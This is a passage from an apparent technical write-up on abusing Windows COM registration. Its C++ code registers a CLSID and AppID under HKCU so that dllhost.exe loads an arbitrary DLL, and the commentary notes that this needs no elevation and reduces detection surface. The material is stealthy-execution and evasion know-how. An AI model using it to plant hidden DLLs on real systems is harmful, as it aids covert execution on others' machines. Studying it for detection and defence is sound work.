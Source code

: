 ### 4.2 Registry Manipulation Function

```cpp
bool SetRegStr(HKEY root, const std::wstring& key, 
               const std::wstring& name, const std::wstring& val) {
    HKEY h;
    if (RegCreateKeyExW(root, key.c_str(), 0, nullptr,
        REG_OPTION_NON_VOLATILE, KEY_WRITE, nullptr, &h, nullptr) != ERROR_SUCCESS)
        return false;
    
    if (RegSetValueExW(h,
        name.empty() ? nullptr : name.c_str(),
        0, REG_SZ,
        (const BYTE*)val.c_str(),
        DWORD((val.size() + 1) * sizeof(wchar_t))) != ERROR_SUCCESS)
    {
        RegCloseKey(h);
        return false;
    }
    RegCloseKey(h);
    return true;
}
```

**Technical Breakdown:**

1. **`RegCreateKeyExW`**: Creates or opens the specified registry key with `KEY_WRITE` permissions
1. **Error Handling**: Each registry operation includes proper error checking
1. **`REG_OPTION_NON_VOLATILE`**: Ensures the key persists across reboots -> Could be changed with **`REG_OPTION_VOLATILE`** (Dtored in memory and is not preserved when the corresponding registry hive is unloaded)

### 4.3 AppID Registry Configuration

```cpp
std::wstring appidKey = LR"(Software\Classes\AppID\)" + std::wstring(CLSID_STR);
if (!SetRegStr(HKEY_CURRENT_USER, appidKey, L"", L"MyStealthObject") ||
    !SetRegStr(HKEY_CURRENT_USER, appidKey, L"DllSurrogate", L""))
```

**Critical Analysis:**

- **AppID Key Structure**: `HKCU\Software\Classes\AppID\{CLSID}`
- **Default Value**: “MyStealthObject” serves as a descriptive name
- **`DllSurrogate` = “”**: Empty string is crucial - signals Windows to use the default `dllhost.exe` as surrogate
- **HKCU vs HKLM**: User hive requires no elevation, reduces detection surface

### 4.4 CLSID Registry Configuration

```cpp
std::wstring clsidKey = LR"(Software\Classes\CLSID\)" + std::wstring(CLSID_STR);
std::wstring inprocKey = clsidKey + LR"(\InprocServer32)";

if (!SetRegStr(HKEY_CURRENT_USER, clsidKey, L"", L"MyStealthObject") ||
    !SetRegStr(HKEY_CURRENT_USER, clsidKey, L"AppID", CLSID_STR) ||
    !SetRegStr(HKEY_CURRENT_USER, inprocKey, L"", L"C:\\Users\\sample.dll") ||
    !SetRegStr(HKEY_CURRENT_USER, inprocKey, L"ThreadingModel", L"Apartment"))
```

